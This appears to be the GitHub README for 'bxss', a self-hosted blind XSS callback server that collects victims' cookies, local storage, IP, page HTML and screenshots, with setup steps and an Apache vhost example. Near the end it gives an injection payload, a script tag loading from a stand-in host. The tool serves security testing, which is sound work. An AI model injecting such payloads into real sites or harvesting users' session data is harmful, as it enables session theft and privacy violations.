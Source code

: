 <h1 align="center">bxss</h1>

<h4 align="center">My alternative to XSS Hunter for blind XSS.</h4>

<p align="center">
    <img src="https://img.shields.io/badge/php-%3E=5.5-blue" alt="php badge">
    <img src="https://img.shields.io/badge/license-MIT-green" alt="MIT license badge">
    <a href="https://twitter.com/intent/tweet?text=https%3a%2f%2fgithub.com%2fgwen001%2fbxss%2f" target="_blank"><img src="https://img.shields.io/twitter/url?style=social&url=https%3A%2F%2Fgithub.com%2Fgwen001%2Fbxss" alt="twitter badge"></a>
</p>

<!-- <p align="center">
    <img src="https://img.shields.io/github/stars/gwen001/bxss?style=social" alt="github stars badge">
    <img src="https://img.shields.io/github/watchers/gwen001/bxss?style=social" alt="github watchers badge">
    <img src="https://img.shields.io/github/forks/gwen001/bxss?style=social" alt="github forks badge">
</p> -->

---

## Features

- reports stored in `sqlite` database
- call logged in log file
- reports send on Slack channel (beta)
- data collected: 
    - vulnerable URL
    - referer URL
    - victim IP
    - victim User-Agent
    - victim cookies
    - victim locale storage
    - HTML of the vulnerable page
    - screenshot of the vulnerable page

Todo:  
- reports send by mail

## Install

```
git clone https://github.com/gwen001/bxss
```

The web user should have write access on the directory `images`.

## Configure domain

Using Apache, you can easily configure a vhost like this:

```
<IfModule mod_ssl.c>
<VirtualHost *:443>
	ServerName x.example.com
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html/bxss/
	SSLCertificateFile /etc/letsencrypt/live/x.example.com/fullchain.pem
	SSLCertificateKeyFile /etc/letsencrypt/live/x.example.com/privkey.pem
</VirtualHost>
</IfModule>

<VirtualHost *:80>
	ServerName x.example.com
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html/bxss/
</VirtualHost>
```

## Injection

As soon as the script is available online, you can use your favorite XSS payload:
```
<script src=http://x.example.com></script>
```

---

<img src="https://raw.githubusercontent.com/gwen001/bxss/main/preview.png" />

---

Feel free to [open an issue](/../../issues/) if you have any problem with the script.  

